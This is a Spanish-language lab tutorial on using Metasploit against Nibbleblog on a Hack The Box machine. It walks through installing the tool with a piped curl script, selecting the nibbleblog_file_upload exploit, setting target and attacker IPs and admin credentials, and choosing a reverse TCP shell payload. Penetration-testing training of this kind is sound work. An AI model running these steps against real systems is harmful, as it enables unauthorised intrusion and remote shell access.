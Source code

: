 # Metasploit Framework - Explotación de Nibbleblog

### Exención de responsabilidad

Este contenido tiene fines educativos y está diseñado para ser utilizado únicamente en entornos controlados y con permisos explícitos.
Hack The Box y otras plataformas similares proporcionan entornos de práctica legalmente autorizados, y se debe asegurar que se cuenta con los permisos adecuados antes de realizar cualquier prueba de penetración o hacking ético.

El autor de esta publicación no se responsabiliza por el uso indebido de las técnicas y herramientas descritas fuera de los entornos legales y éticos correspondientes.

---

## Usos y consideraciones de Metasploit Framework

Metasploit es una herramienta de código abierto utilizada por profesionales de seguridad para probar la robustez de las redes y sistemas mediante la explotación de vulnerabilidades conocidas.

---

### 1. Descargar Metasploit Framework

#### A) Web oficial

https://www.metasploit.com/

	- Acude a la página oficial de la herramienta y descarga la versión 'Open source'.

#### B) En Linux usando terminal 

##### B.1. Instalar dependencias

Primero, asegúrate de tener las dependencias necesarias.
Si estás en Ubuntu/Debian puedes instalar las dependencias con:

```bash
sudo apt update
sudo apt install curl wget git build-essential libssl-dev libpq-dev libreadline-dev libpcap-dev libsqlite3-dev
```

##### B.2. Instalar Metasploit Framework

Puedes instalar Metasploit Framework usando el script de instalación proporcionado por el proyecto rapid7 o desde los repositorios oficiales.

### Método 1: Usar el script de instalación (recomendado) 

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfvenom-installer.sh | sudo bash
```

### Método 2: Usar apt (si está disponible en los repositorios)

```bash 
sudo apt install metasploit-framework
```

### 2. Uso de Metasploit Framework

#### 2.1. Ejecutar Metasploit Framework

```bash
msfconsole
```

Esto debe de abrir la consola interactiva de Metasploit (msfconsole), donde puedes empezar a usar la herramienta.

![Captura de pantalla](herramientas/metaesploit/imágenes/msfconsole.png)

#### 2.2. Buscar módulos de exploits

Para buscar exploit disponibles usamos el comando 'search' seguido de la vulnerabilidad/servicio a explotar. Vemos dos ejemplos para Wordpress y Nibbleblog

```bash
search Wordpress
```

```bash
search Nibbleblog
```

![Captura de pantalla](herramientas/metaesploit/imágenes/search.png)

#### 2.3. Seleccionar un exploit

Para usar un exploit específico, primero debes seleccionarlo con el comando `use`
 
```bash
use 0
```

```bash
use exploit/multi/http/nibbleblog_file_upload
```
Dos formas válidas de seleccionar un exploit (el nº 0 hace referencia al índice del exploit, miestras que la segunda forma es nombrando la ruta absoluta del exploit)

![Captura de pantalla](herramientas/metaesploit/imágenes/use.png)

#### 2.4. Ver los parámetros del exploit

Cuando seleccionas un exploit, tienes que ver los parámetros necesarios (como la dirección IP de la víctima, puertos, etc.) con `show options`:

##### 2.4.1 Parámetros del Exploit

- **RHOST**: Dirección IP del objetivo.
- **LHOST**: Dirección IP de la máquina atacante (tu propia máquina).
- **LPORT**: Puerto de escucha para la conexión reversa.
- **targeturi**: Especifica la ruta del servicio web que vamos a explotar, en este caso, `nibbleblog` (por defecto o nombre de directorio).


```bash
show options
```

![Captura de pantalla](herramientas/metaesploit/imágenes/show_options.png)
	
#### 2.5. Configurar los parámetros del exploit

Configuramos cada parametro que este marcado como 'yes' con el comando `set`

Establecemos la opción 'rhosts' como la dirección IP de destino (IP víctima)

```bash
set RHOST 10.129.126.4
```

Establecemos la opción 'lhosts' como la dirección IP atacante (en HTB usar la IP tun0 propia de la VPN)

```bash
set LHOST 10.10.12.4
```

Establecemos la opción 'username' con el nombre de usuario de la víctima (obviamente requiere de su conocimiento, bien por ser proporcionada o por extracción) 

```bash
set username admin
```

Establecemos la opción 'password' con la contraseña de usuario de la víctima (obviamente requiere de su conocimiento, bien por ser proporcionada o por extracción) 

```bash
set password <contraseña_de_usuario>
```

[!] Cambiar <contraseña_de_usuario> por la correcta de Nibbleblog (para este caso)

Establecemos la opción 'targeturi' con el nombre del servicio a explotar

```bash
set targeturi nibbleblog
```

Una vez, configuradas las distintas opciones señaladas como necesarias (como 'yes') podemos comprobar los cambios usando de nuevo `show options`

#### 2.6. Configurar parámetros de payload (o carga útil)

Cada exploit requiere de un payload, para ver los disponibles podemos usar el comando `show payloads`
 
```bash
show payloads
```

![Captura de pantalla](herramientas/metaesploit/imágenes/show_payloads.png)

#### 2.7. Seleccionar un payload

Para usar un payload específico, primero debes seleccionarlo con el comando `use`
 
```bash
use payload 4
```

```bash
use payload generic/shell_reverse_tcp
```
Dos formas válidas de seleccionar un payload (el nº 4 hace referencia al índice del payload, miestras que la segunda forma es nombrando la ruta absoluta del exploit)

Puedes ver la información sobre el payload con el comando `info`

```bash
info generic/shell_reverse_tcp
```

[!] Importante revisar de nuevo `show options` para verificar la configuración

#### 2.8. Ejecutar exploit

Para ejecutar el exploit seleccionado y configurado podemos usar los comandos `run` o `exploit`
 
```bash
run
```

```bash
exploit
```

Despues de ejecutar el exploit, deberíamos de obtener (para este caso) una shell reversa. A partir de aquí sería continuar con la explotación en el grado que se requiera (por ejemplo elevando privilegios)

---

